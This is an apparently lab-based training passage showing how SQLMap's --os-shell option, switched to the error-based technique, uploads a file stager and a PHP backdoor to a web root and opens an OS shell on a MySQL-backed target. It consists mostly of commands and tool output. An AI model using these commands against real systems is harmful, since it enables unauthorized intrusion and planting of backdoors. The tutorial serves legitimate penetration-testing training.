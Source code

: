 ```shell-session
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output
```

We see that SQLMap defaulted to`UNION` technique to get an OS shell, but eventually failed to give us any output`No output`. So, as we already know we have multiple types of SQL injection vulnerabilities, let's try to specify another technique that has a better chance of giving us direct output, like the`Error-based SQL Injection`, which we can specify with`--technique=E`:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

 ___
 __H__
 ___ ___[,]_____ ___ ___ {1.4.11#stable}
|_ -| . [,] | .'| . |
|___|_ [(]_|_|_|__,| _|
 |_|V... |_| http://sqlmap.org


[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
```